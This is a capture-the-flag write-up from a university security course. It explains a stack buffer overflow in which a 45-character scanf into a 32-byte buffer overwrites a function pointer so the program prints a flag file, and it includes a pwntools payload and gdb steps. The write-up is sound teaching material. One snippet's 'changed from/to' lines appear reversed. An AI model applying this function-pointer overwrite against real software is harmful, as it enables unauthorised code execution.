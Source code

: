 # CTF 3 - Week 5 - Buffer Overflow (Stack)

## Reconnaissance (Local execution)

To get familiar with the program, its code and the exploit, we first analyzed and ran it locally.

Question 1: Is there a file that is opened and read by the program?
Answer 1: In the `main.c` file, the `readtxt()` function is called, receiving a file name as an argument, which appends the `.txt` extension to the file name and runs the `cat` command on it using a `system()` call. In `main.c` the file opened is "rules.txt".

```c
int readtxt(char* name){
  char command[15];
  sprintf(command,"cat %s.txt\0",name);
  system(command);
  return 0;
}
```

Question 2: Is there any way to control which file is opened?
Answer 2: Yes, due to the fact that the functions are called in `main()` using a function pointer, we can try and control the argument passed to it, so that the `readtxt()` function opens a file of our choosing.

```c
void(*fun)(char*);
// ...
fun = &readtxt;
(*fun)("rules");
```

Question 3: Is there a buffer-overflow? If so, what can you do?
Answer 3: Yes, the `scanf()` call in the `main()` function reads up to 45 characters and stores them into the `buffer` variable, which is only 32 characters long. This means that we can overflow the buffer and change the function pointer to a function of our choosing (currently it's pointing to the echo() function, which doesn't suit our needs), such as `readtxt()`, as well as providing the `flag` file as an argument.

```c
char buffer[32];
// ...
fun=&echo;
// ...
scanf("%45s", &buffer);
(*fun)(buffer);
```

More concretely, the function pointer `fun` is stored immediately buffer the `buffer` variable in memory - in a higher memory address -, so we can overflow the buffer and change the function pointer to `readtxt()` by preparing the following input in the `exploit-template.py` script:

```python
file_name = b"flag\0"
padding = b"\x90"*(32-len(file_name))
readtxt_addr = p32() # argument is the address of the readtxt() function in little-endian representation

payload =  file_name +  padding + readtxt_addr
```

The rest of the script just waits for the program to ask for input and sends the payload, as well as receiving the output of the `cat` command and printing it.

To obtain the address of the `readtxt()` function, we can use the `gdb` debugger to run the program and print the address of the function. Once the debugger is started, with `gdb ./program`, we can set a breakpoint at the `main()` function and run the program. When the breakpoint is hit, we can print the address of the `readtxt()` function.

```bash
break main
run
p &readtxt
```

From the output, we obtained `0x80497a5`, which has omitted a leading zero, so we add it to the address: `0x080497a5` and convert it to little-endian representation, `"\xa5\x97\x04\x08"`, using the `p32()` function from the `pwn` library.

By running the script `exploit-template.py`, the `program` executable whose source code is in `main.c` will be executed with the `process` function from the `pwn` library, and the `flag` file's content will be printed - `flag{test}`:

![local_execution_output](images/CTF5/local_execution.png)
Image 1: Running the exploit script on the local machine

## Exploiting the vulnerability (remotely)

Given that the payload is working locally, we can try to run it on the remote server. The `exploit-template.py` script is modified to connect to the remote server:

```python
# Changed from:
r = remote('ctf-fsi.fe.up.pt', 4000)
# To:
r = process('./program')
```

After running it, the output is `flag{4dm1n_fun_w45_0wn3d}`. After submitting it in the corresponding CTF challenge, we successfully completed it!

![remote_execution_output](images/CTF5/remote_execution.png)
Image 2: Running the exploit script on the remote server
